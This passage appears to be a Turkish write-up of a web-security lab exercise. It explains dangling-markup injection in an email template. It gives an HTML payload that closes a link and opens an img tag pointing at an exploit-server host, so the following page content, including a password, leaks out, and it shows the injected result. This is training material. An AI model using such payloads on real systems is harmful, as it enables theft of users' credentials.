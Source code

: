 ![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2017.png)

Burada a tag’inin href değerini öyle bir değer ile değiştirmeliyiz ki bu kısım parolayı taşıyan bir URL’e dönüşmeli. Yani buradaki link’e tıkladığında bize parolanın da gelmesi gerekiyor. Bu kısma gelmeden önde `Dangling markup`  konusunu anlamamız gerekmektedir. 

`Dangling Markup`, bir metin veya belge içinde yer alan, ancak tamamlanmamış veya uyumsuz bir HTML veya diğer işaretleme diline ait etiketleri ifade eder. Bu etiketler, genellikle başlangıç etiketi açıldıktan sonra kapatılmamış veya kapatılması gereken bir etiketin başlangıcı olmayan durumları temsil eder.

Örneğin yukarıdaki yapıyı bu şekilde değiştirebiliriz, eklediğimiz bu yeni kısım ile birlikte HTML içeriğin kalan tüm kısmı img etiketine bağlanmış olacaktır;

```html
payload: '></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=
```

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://paylaod/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```

Dolayısıyla buradaki yapımız şu hale gelecektir;

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://'></a> <img src="http:// https://exploit-0a94007f037fa560847ca470015a00ce.exploit-server.net/exploit/?a=/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```
